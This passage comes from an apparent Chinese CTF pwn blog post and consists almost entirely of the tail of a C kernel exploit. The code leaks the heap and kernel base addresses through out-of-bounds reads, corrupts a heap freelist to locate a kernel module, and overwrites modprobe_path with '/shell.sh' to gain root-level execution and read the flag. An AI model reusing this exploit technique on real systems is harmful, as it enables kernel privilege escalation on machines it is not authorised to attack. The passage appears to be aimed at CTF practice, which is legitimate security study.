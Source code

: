     	delete(1);
    	delete(3);
    
    	show(4, 0x100, -0x100, buf);
    	heap_base = ((size_t *)buf)[0] - 0x100;
    	printf("[+] heap_addr=> 0x%lx\n", heap_base);
    
    	show(0, 0x200, -0x200, buf);
    	vmlinux_base = ((size_t *)buf)[0] - 0x8472c0;
    	printf("[+] vmlinux_base=> 0x%lx\n", vmlinux_base);
    	mod_tree = vmlinux_base + 0x811000;
    	modprobe_path = vmlinux_base + 0x83f960;
    	
    	memset(buf,'\x00',0x100);
    	((size_t  *)buf)[0] = mod_tree + 0x40;
    	edit(4, 0x100, -0x100, buf);
    	
    	add(5, 0x100, buf); // 5
    	add(6, 0x100, buf); // 6
    
    	show(6, 0x40, -0x40, buf);
    	ko_base = ((size_t *)buf)[3];
    	printf("[+] ko_base=> 0x%lx\n", ko_base);
    
    	delete(2);
    	delete(5);
    
    	getchar();
    	((size_t  *)buf)[0] = ko_base + 0x2400 + 0xc0;
    	edit(4, 0x100, -0x100, buf);
    
    	add(7, 0x100, buf); // 7
    	add(8, 0x100, buf); // 8
    
    	((size_t  *)buf)[0] = modprobe_path;
    	((size_t  *)buf)[1] = 0x100;
    	edit(8, 0x10, 0, buf);
    
    	strncpy(buf, "/shell.sh\x00", 0xa);
    	edit(12, 0xa, 0, buf);
    
    	get_flag();
    	return 0;
    }
    

本文来自博客园，作者：{狒猩橙}，转载请注明原文链接：[https://www.cnblogs.com/pwnfeifei/p/16230549.html](https://www.cnblogs.com/pwnfeifei/p/16230549.html)